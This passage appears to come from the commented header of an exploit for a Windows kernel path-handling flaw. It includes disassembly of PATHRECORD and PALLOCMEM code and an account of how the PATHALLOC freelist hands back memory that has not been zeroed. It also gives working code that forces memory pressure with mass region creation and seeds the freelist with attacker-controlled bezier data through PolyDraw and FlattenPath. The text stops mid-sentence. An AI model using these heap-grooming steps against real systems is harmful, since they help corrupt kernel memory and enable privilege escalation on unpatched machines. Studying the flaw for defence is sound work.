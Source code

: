 //  .text:BFA122DC                 mov     [eax], edx
//  .text:BFA122DE                 mov     ecx, [esi+PATHRECORD.flags]
//  .text:BFA122E1                 and     ecx, not (PD_BEZIER)
//  .text:BFA122E4                 mov     [edi+PATHRECORD.flags], ecx
//  .text:BFA122E7                 mov     [ebp+pprNewCountPtr], eax
//  .text:BFA122EA                 cmp     [edi+PATHRECORD.pprPrev], edx
//  .text:BFA122ED                 jnz     short loc_BFA122F7
//  .text:BFA122EF                 mov     ecx, [ebx+EPATHOBJ.ppath]
//  .text:BFA122F2                 mov     [ecx+PATHOBJ.pprfirst], edi
//
//  It turns out this mostly works because newpathrec() is backed by newpathalloc()
//  which uses PALLOCMEM(). PALLOCMEM() will always zero the buffer returned.
//
//  ; PVOID __stdcall PALLOCMEM(size_t size, int tag)
//  .text:BF9160D7                 xor     esi, esi
//  .text:BF9160DE                 push    esi
//  .text:BF9160DF                 push    esi
//  .text:BF9160E0                 push    [ebp+tag]
//  .text:BF9160E3                 push    [ebp+size]
//  .text:BF9160E6                 call    _HeavyAllocPool () 16 ; HeavyAllocPool(x,x,x,x)
//  .text:BF9160EB                 mov     esi, eax
//  .text:BF9160ED                 test    esi, esi
//  .text:BF9160EF                 jz      short loc_BF9160FF
//  .text:BF9160F1                 push    [ebp+size]      ; size_t
//  .text:BF9160F4                 push    0               ; int
//  .text:BF9160F6                 push    esi             ; void *
//  .text:BF9160F7                 call    _memset
//
//  However, the PATHALLOC allocator includes it's own freelist implementation, and
//  if that codepath can satisfy a request the memory isn't zeroed and returned
//  directly to the caller. This effectively means that we can add our own objects
//  to the PATHRECORD chain.
//
//  We can force this behaviour under memory pressure relatively easily, I just
//  spam HRGN objects until they start failing. This isn't super reliable, but it's
//  good enough for testing.
//
//          // I don't use the simpler CreateRectRgn() because it leaks a GDI handle on
//          // failure. Seriously, do some damn QA Microsoft, wtf.
//          for (Size = 1 &lt;&lt; 26; Size; Size &gt;&gt;= 1) {
//              while (CreateRoundRectRgn(0, 0, 1, Size, 1, 1))
//                  ;
//          }
//
//  Adding user controlled blocks to the freelist is a little trickier, but I've
//  found that flattening large lists of bezier curves added with PolyDraw() can
//  accomplish this reliably. The code to do this is something along the lines of:
//
//          for (PointNum = 0; PointNum &lt; MAX_POLYPOINTS; PointNum++) {
//              Points[PointNum].x      = 0x41414141 &gt;&gt; 4;
//              Points[PointNum].y      = 0x41414141 &gt;&gt; 4;
//              PointTypes[PointNum]    = PT_BEZIERTO;
//          }
//
//          for (PointNum = MAX_POLYPOINTS; PointNum; PointNum -= 3) {
//              BeginPath(Device);
//              PolyDraw(Device, Points, PointTypes, PointNum);
//              EndPath(Device);
//              FlattenPath(Device);
//              FlattenPath(Device);
//              EndPath(Device);
//          }
//
//   We can verify this is working by putting a breakpoint after newpathrec, and